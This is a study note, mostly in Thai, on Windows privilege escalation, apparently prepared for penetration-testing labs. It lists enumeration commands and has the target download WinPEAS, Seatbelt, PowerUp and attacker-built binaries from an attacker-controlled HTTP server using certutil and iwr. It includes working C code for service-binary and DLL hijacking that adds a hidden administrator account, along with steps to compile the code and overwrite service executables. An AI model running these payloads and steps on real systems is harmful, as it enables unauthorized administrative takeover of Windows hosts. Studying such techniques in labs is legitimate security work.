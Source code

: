 [[mimikatz]]

```
git clone https://github.com/gentilkiwi/mimikatz.git

```

# Windows Privilege Escalation 

```
# Level 1 Win Priv Manual 

whoami 
# ตรวจสอบ Privilege ของ User ที่ใช้
whoami /priv
whoami /group

# ตรวจสอบ Localgroup ภายในเครื่องเป้าหมาย
net localgroup

# ตรวจสอบ Users ภายใน Groups Remote Management Users 
net localgroup "Remote Management Users"

# เข้าใช้งาน Powershell ภายใต้ Commandline Interface 
powershell -ep bypass

# ตรวจสอบสิทธิ admin 
Get-LocalGroupMember administrators

# ตรวจสอบรายละเอียด Application ที่ติดตั้งบน Computer
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" 
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"

# ตรวจสอบเฉพาะชื่อแอพที่ติดตั้ง
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

# ตรวจสอบ Process บนเครื่องเป้าหมาย 
powershell -ep bypass 
Get-Process

# ตรวจสอบรายละเอียดของ Process ชื่อ NonStandardProcess
Get-Process -Name "NonStandardProcess"| format-list *


# ค้นหาไฟล์ตาม File type ที่สนใจ
Get-ChildItem -Path C:\XAMPP -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue 

# คำสั่ง su หรือ Switch Users บน Windows 
runas /user:backupadmin cmd
# แล้วจะมีให้ใส่ password
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" 


# คำสั่งตรวจสอบ Powershell command History 
Get-History
(Get-PSReadlineOption).HistorySavePath



```

[[WinEventlogSearching]]
การตรวจสอบ Event ภายใต้ Windows สามารถใช้ Event Viewer ในการตรวจสอบที่ PATH: Application and service Logs > Microsoft > Windows > PowerShell > Operation   Script Block logging event in windows is 4104 

![[EventID4104.png]]

![[EVENTID4104-2.png]]


[[evil-winrm]]
```
# Command บน Kali สำหรับ Powershell ไปยัง Windows 
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```


Level 2 Automate tools 

```
ติดตั้ง WinPeas
sudo apt install peass 
updatedb 
locate winpeas
/usr/bin/winpeas
/usr/share/peass/winpeas
/usr/share/peass/winpeas/winPEAS.bat
/usr/share/peass/winpeas/winPEASany.exe
/usr/share/peass/winpeas/winPEASany_ofs.exe
/usr/share/peass/winpeas/winPEASx64.exe
/usr/share/peass/winpeas/winPEASx64_ofs.exe
/usr/share/peass/winpeas/winPEASx86.exe
/usr/share/peass/winpeas/winPEASx86_ofs.exe

python3 -m http.server 80
certutil.exe -urlcache -split -f http://192.168.45.241/winPEASx64.exe winPEASx64.exe
.\winPEASx64.exe


# Seatbelt Repo 
https://github.com/GhostPack/Seatbelt
# Download Binaries file@
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git

python3 -m http.server 80 
certutil.exe -urlcache -split -f http://192.168.45.241/Seatbelt.exe Seatbelt.exe  
.\Searbelt.exe -group=all 

```


Level 3: Hack Windows Service 

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

|Mask|Permissions|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

# ตรวจสอบสิทธิของ httpd.exe หรือ App ที่สนใจว่า user ที่เราใช้มีสิทธิอะไรบนไฟล์หรือ Service ดังกล่าว โดขให้มองหาสิทธิที่เป็น Full หรือ RX 
icacls "C:\xampp\apache\bin\httpd.exe"
icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(F)

```

จากตัวอย่างจะเห็นว่า Buildin\Users: มีสิทธิ Full Access ฉะนั้นเราสามารถทำ [[Win Service Binary Hijacking]] ได้ 

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

จากนั้น ก็นำโปรแกรมไป Compire บน Kali 

```
# Compile adduser.c > .exe 
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe 

# download adduser.exe
certutil.exe -urlcache -split -f http://192.168.45.241/adduser.exe adduser.exe

# Backup ไฟล์ mysqld.exe กรณีพัง 
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe C:\xampp\mysql\bin\mysqld2.exe.bkk       
move C:\xampp\mysql\bin\mysqld.exe C:\xampp\mysql\bin\mysqld2.exe.bkk

# เขียนทับ mysqld.exe ด้วย adduser.exe 
PS C:\Users\dave> copy adduser.exe C:\xampp\mysql\bin\mysqld.exe 
copy adduser.exe C:\xampp\mysql\bin\mysqld.exe 

# Restart เพื่อให้รัน Service
PS C:\Users\dave> shutdown /r /t 0 

Get-LocalGroupMember administrators

evil-winrm -i 192.168.222.220 -u dave2 -p 'password123!'

```

[[PowerUp.ps1]]

```
locate PowerUp
/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 . 

certutil.exe -urlcache -split -f http://192.168.45.241/PowerUp.ps1 PowerUp.ps1

# จำเป็นต้องรันทุกครั้งก่อนรัน PowerUp
powershell -ep bypass
. .\PowerUp.ps1

# หลังจากติดตั้ง PowerUp เราสามารถตรวจสอบหา Service ที่สามารถแก้ไขได้และสามารถ upload adduser.exe ไปแทนได้ นั่นเอง
Get-ModifiableServiceFile 

```

![[Powerup-1.png]]![[PowerUp-2.png]]


[[WinDLLHijacking]]

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

```
# เตรียม DLL สำหรับ Hijack 
sudo apt update
sudo apt install g++-mingw-w64 

x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll

```

ภายใต้ Procmon เราจะ Filter Service ที่สนใจ ในที่นี้เป็น Filezilla.exe และทำการตรวจหา DLL ที่ขึ้นผลลัพธ์เป็น NAME NOT FOUND 
![[windllinjectwithprocmon.png]]

ช่องโหว่ของ FileZilla version ที่ใช้ มีช่องโหว่บน DLL ดังตัวอย่าง

```
C:\FileZilla\FileZilla FTP Client\TextShaping.dll 
```

```
iwr -uri http://192.168.45.241/dllhij.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```

สุดท้ายคือเปิด FileZilla ก็จะเห็น dave3 ด้วยคำสั่ง net user 

[[Unquoted Service Paths]]

